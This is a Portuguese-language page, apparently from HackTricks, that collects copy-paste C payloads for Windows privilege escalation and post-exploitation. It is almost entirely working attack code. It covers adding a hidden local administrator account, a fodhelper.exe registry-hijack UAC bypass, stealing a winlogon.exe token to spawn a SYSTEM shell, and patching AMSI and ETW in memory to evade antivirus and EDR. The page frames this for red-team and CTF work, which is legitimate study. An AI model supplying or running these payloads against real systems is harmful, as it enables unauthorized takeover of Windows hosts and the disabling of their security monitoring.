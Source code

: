 # Windows C Payloads

{{#include ../../banners/hacktricks-training.md}}

Esta página coleta **pequenos trechos de C autônomos** que são úteis durante a Escalação de Privilégios Locais no Windows ou pós-exploração. Cada payload é projetado para ser **amigável ao copiar e colar**, requer apenas a API do Windows / tempo de execução C, e pode ser compilado com `i686-w64-mingw32-gcc` (x86) ou `x86_64-w64-mingw32-gcc` (x64).

> ⚠️  Esses payloads assumem que o processo já possui os privilégios mínimos necessários para realizar a ação (por exemplo, `SeDebugPrivilege`, `SeImpersonatePrivilege` ou contexto de integridade média para um bypass de UAC). Eles são destinados a **configurações de red-team ou CTF** onde explorar uma vulnerabilidade resultou na execução de código nativo arbitrário.

---

## Adicionar usuário administrador local
```c
// i686-w64-mingw32-gcc -s -O2 -o addadmin.exe addadmin.c
#include <stdlib.h>
int main(void) {
system("net user hacker Hacker123! /add");
system("net localgroup administrators hacker /add");
return 0;
}
```
---

## UAC Bypass – `fodhelper.exe` Registro Hijack (Integridade Média → Alta)
Quando o binário confiável **`fodhelper.exe`** é executado, ele consulta o caminho do registro abaixo **sem filtrar o verbo `DelegateExecute`**. Plantando nosso comando sob essa chave, um atacante pode contornar o UAC *sem* gravar um arquivo no disco.

*Caminho do registro consultado por `fodhelper.exe`*
```
HKCU\Software\Classes\ms-settings\Shell\Open\command
```
Um PoC mínimo que abre um `cmd.exe` elevado:
```c
// x86_64-w64-mingw32-gcc -municode -s -O2 -o uac_fodhelper.exe uac_fodhelper.c
#define _CRT_SECURE_NO_WARNINGS
#include <windows.h>
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int main(void) {
HKEY hKey;
const char *payload = "C:\\Windows\\System32\\cmd.exe"; // change to arbitrary command

// 1. Create the vulnerable registry key
if (RegCreateKeyExA(HKEY_CURRENT_USER,
"Software\\Classes\\ms-settings\\Shell\\Open\\command", 0, NULL, 0,
KEY_WRITE, NULL, &hKey, NULL) == ERROR_SUCCESS) {

// 2. Set default value => our payload
RegSetValueExA(hKey, NULL, 0, REG_SZ,
(const BYTE*)payload, (DWORD)strlen(payload) + 1);

// 3. Empty "DelegateExecute" value = trigger (")
RegSetValueExA(hKey, "DelegateExecute", 0, REG_SZ,
(const BYTE*)"", 1);

RegCloseKey(hKey);

// 4. Launch auto-elevated binary
system("fodhelper.exe");
}
return 0;
}
```
*Testado no Windows 10 22H2 e Windows 11 23H2 (patches de julho de 2025). O bypass ainda funciona porque a Microsoft não corrigiu a verificação de integridade ausente no caminho `DelegateExecute`.*

---

## Criar shell SYSTEM via duplicação de token (`SeDebugPrivilege` + `SeImpersonatePrivilege`)
Se o processo atual possui **ambos** os privilégios `SeDebug` e `SeImpersonate` (típico para muitas contas de serviço), você pode roubar o token de `winlogon.exe`, duplicá-lo e iniciar um processo elevado:
```c
// x86_64-w64-mingw32-gcc -O2 -o system_shell.exe system_shell.c -ladvapi32 -luser32
#include <windows.h>
#include <tlhelp32.h>
#include <stdio.h>

DWORD FindPid(const wchar_t *name) {
PROCESSENTRY32W pe = { .dwSize = sizeof(pe) };
HANDLE snap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
if (snap == INVALID_HANDLE_VALUE) return 0;
if (!Process32FirstW(snap, &pe)) return 0;
do {
if (!_wcsicmp(pe.szExeFile, name)) {
DWORD pid = pe.th32ProcessID;
CloseHandle(snap);
return pid;
}
} while (Process32NextW(snap, &pe));
CloseHandle(snap);
return 0;
}

int wmain(void) {
DWORD pid = FindPid(L"winlogon.exe");
if (!pid) return 1;

HANDLE hProc   = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, FALSE, pid);
HANDLE hToken  = NULL, dupToken = NULL;

if (OpenProcessToken(hProc, TOKEN_DUPLICATE | TOKEN_ASSIGN_PRIMARY | TOKEN_QUERY, &hToken) &&
DuplicateTokenEx(hToken, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &dupToken)) {

STARTUPINFOW si = { .cb = sizeof(si) };
PROCESS_INFORMATION pi = { 0 };
if (CreateProcessWithTokenW(dupToken, LOGON_WITH_PROFILE,
L"C\\\Windows\\\System32\\\cmd.exe", NULL, CREATE_NEW_CONSOLE,
NULL, NULL, &si, &pi)) {
CloseHandle(pi.hProcess);
CloseHandle(pi.hThread);
}
}
if (hProc) CloseHandle(hProc);
if (hToken) CloseHandle(hToken);
if (dupToken) CloseHandle(dupToken);
return 0;
}
```
Para uma explicação mais profunda de como isso funciona, veja:

{{#ref}}
sedebug-+-seimpersonate-copy-token.md
{{#endref}}

---

## Patch AMSI & ETW em Memória (Evasão de Defesa)
A maioria dos motores AV/EDR modernos depende de **AMSI** e **ETW** para inspecionar comportamentos maliciosos. Fazer patch em ambas as interfaces cedo dentro do processo atual impede que payloads baseados em script (por exemplo, PowerShell, JScript) sejam escaneados.
```c
// gcc -o patch_amsi.exe patch_amsi.c -lntdll
#define _CRT_SECURE_NO_WARNINGS
#include <windows.h>
#include <stdio.h>

void Patch(BYTE *address) {
DWORD oldProt;
// mov eax, 0x80070057 ; ret  (AMSI_RESULT_E_INVALIDARG)
BYTE patch[] = { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 };
VirtualProtect(address, sizeof(patch), PAGE_EXECUTE_READWRITE, &oldProt);
memcpy(address, patch, sizeof(patch));
VirtualProtect(address, sizeof(patch), oldProt, &oldProt);
}

int main(void) {
HMODULE amsi  = LoadLibraryA("amsi.dll");
HMODULE ntdll = GetModuleHandleA("ntdll.dll");

if (amsi)  Patch((BYTE*)GetProcAddress(amsi,  "AmsiScanBuffer"));
if (ntdll) Patch((BYTE*)GetProcAddress(ntdll, "EtwEventWrite"));

MessageBoxA(NULL, "AMSI & ETW patched!", "OK", MB_OK);
return 0;
}
```
*O patch acima é local ao processo; iniciar um novo PowerShell após executá-lo será feito sem inspeção AMSI/ETW.*

---

## Referências
* Ron Bowes – “Fodhelper UAC Bypass Deep Dive” (2024)
* SplinterCode – “AMSI Bypass 2023: The Smallest Patch Is Still Enough” (BlackHat Asia 2023)

{{#include ../../banners/hacktricks-training.md}}
